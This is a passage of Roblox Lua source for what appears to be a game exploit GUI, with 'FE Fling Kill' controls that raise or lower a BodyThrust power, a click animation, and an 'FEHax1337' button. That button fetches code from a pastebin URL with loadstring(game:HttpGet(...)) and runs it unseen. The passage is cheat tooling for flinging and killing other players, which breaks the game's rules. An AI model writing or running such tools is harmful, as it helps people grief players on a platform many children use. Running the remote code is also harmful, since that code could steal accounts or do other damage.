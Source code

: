 	bambam.Location = game.Players.LocalPlayer.Character.HumanoidRootPart.Position
	end)
	
	StopKill.MouseButton1Click:connect(function()
	active = false
	game.Players.LocalPlayer.Character.HumanoidRootPart.BodyThrust:Remove()
	end)
	
	UPArrow.MouseButton1Click:connect(function()
	power = power + 100
	game.Players.LocalPlayer.Number.Value = game.Players.LocalPlayer.Number.Value + 1
	CurrentPower.Text = "Current Power = " .. game.Players.LocalPlayer.Number.Value
	end)
	
	DownArrow.MouseButton1Click:connect(function()
	power = power - 100
	game.Players.LocalPlayer.Number.Value = game.Players.LocalPlayer.Number.Value - 1
	CurrentPower.Text = "Current Power = " .. game.Players.LocalPlayer.Number.Value
	end)
	end)

end
coroutine.resume(coroutine.create(SCRIPT_DADG89_FAKESCRIPT))
function SCRIPT_NVWH82_FAKESCRIPT() -- FEFlingKill.Effect 
	local script = Instance.new('LocalScript')
	script.Parent = FEFlingKill
	script.Parent.MouseButton1Down:Connect(function(X, Y)
	local C = Instance.new('ImageLabel', script.Parent)
	C.BackgroundTransparency = 1
	C.Position = UDim2.new(0, X - 0, 0, Y - 35) - UDim2.new(0, script.Parent.AbsolutePosition.X, 0, script.Parent.AbsolutePosition.Y)
	C.Size = UDim2.new(0, 0, 0, 0)
	C.Image = 'rbxassetid://200182847'
	C.ImageColor3 = Color3.new(0.0980392, 0.0980392, 0.0980392)
	C.Name = 'Circle'
	C:TweenSizeAndPosition(UDim2.new(0, 500, 0, 500), C.Position - UDim2.new(0, 250, 0, 250), 'Out', 'Quart', 2.5)
	for i = 0, 1, 0.03 do
	C.ImageTransparency = i
	game:GetService('RunService').RenderStepped:wait()
	end
	C:destroy()
	end)
	

end
coroutine.resume(coroutine.create(SCRIPT_NVWH82_FAKESCRIPT))
function SCRIPT_HNLA81_FAKESCRIPT() -- FEHax1337.LocalScript 
	local script = Instance.new('LocalScript')
	script.Parent = FEHax1337
	local btn=script.Parent
	
	btn.MouseButton1Click:Connect(function()
	loadstring(game:HttpGet(('https://pastebin.com/raw/WacHseT3'), true))()
	end)

